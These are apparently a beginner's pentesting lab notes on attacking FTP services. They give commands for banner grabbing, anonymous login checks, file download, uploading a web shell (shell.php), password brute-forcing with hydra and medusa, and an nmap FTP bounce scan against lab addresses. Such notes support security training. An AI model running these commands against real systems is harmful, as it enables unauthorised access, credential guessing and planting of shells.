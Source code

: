 ```yaml
---
title: "21 - FTP"
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - ftp
toc: true
hide_title: true
excerpt: ""
---
```


## Banner Grabbing

```
nc -vn <IP> 21 
```

## Connecting to the FTP server using the `ftp` client.

```
ftp 192.168.2.142
```
#### anonymous login check 

```
username : anonymous 
password : anonymous 
```

## File download

```
get flag.txt
mget *
```
## File upload

```
put shell.php
```

# Brute Force

#### [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt) - Default Credentials for FTP

```
hydra -L /username.txt -P /usr/share/wordlists/rockyou.txt ftp://10.129.203.7
```

```
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
``` 

## FTP Bounce Attack

The `Nmap` -b flag can be used to perform an FTP bounce attack:

```
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```
